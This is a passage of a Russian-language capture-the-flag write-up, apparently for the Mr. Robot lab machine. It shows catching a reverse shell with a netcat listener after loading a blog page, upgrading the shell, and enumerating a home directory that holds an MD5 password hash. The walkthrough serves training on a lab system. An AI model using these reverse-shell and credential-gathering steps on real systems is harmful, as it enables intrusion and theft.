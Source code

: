 Теперь иду в блог, например, на `http://192.168.56.129/blog/wubbalubbadubdub` и получаю реверс
```bash
┌──(kali㉿0x2d-pentest)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.56.106] from (UNKNOWN) [192.168.56.129] 38634
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 15:23:26 up 16 min,  0 users,  load average: 0.20, 0.10, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/$ export TERM=xterm
export TERM=xterm
daemon@linux:/$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                                                  
┌──(kali㉿0x2d-pentest)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

daemon@linux:/$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
daemon@linux:/$ pwd
/
daemon@linux:/$
```

## ⚙️ Привилегии

Теперь нужно осмотреться
```bash
daemon@linux:/$ ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
drwxr-xr-x  2 root root 4096 Nov 13  2015 robot
daemon@linux:/$ cd /home/robot
daemon@linux:/home/robot$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt 
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$ 
```
